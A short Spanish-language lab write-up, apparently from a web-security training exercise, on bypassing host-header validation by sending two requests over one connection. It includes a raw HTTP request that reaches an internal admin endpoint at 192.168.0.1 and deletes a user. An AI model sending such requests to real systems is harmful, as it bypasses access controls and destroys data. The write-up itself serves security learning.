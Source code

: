 ```yaml
---
layout: default
title: 6 - Host validation bypass via connection state attack
---
```

Cuando enviamos dos request en la misma conexión `Send Group : single connection`

Solo se valida el host de la primera, entonces en la primera petición ponemos el host válido y en la segunda :

```http
GET /admin/delete?csrf=waCvpZJQxEGBwRXNSbAnManxozXspsSC&username=carlos HTTP/1.1
Host: 192.168.0.1
```
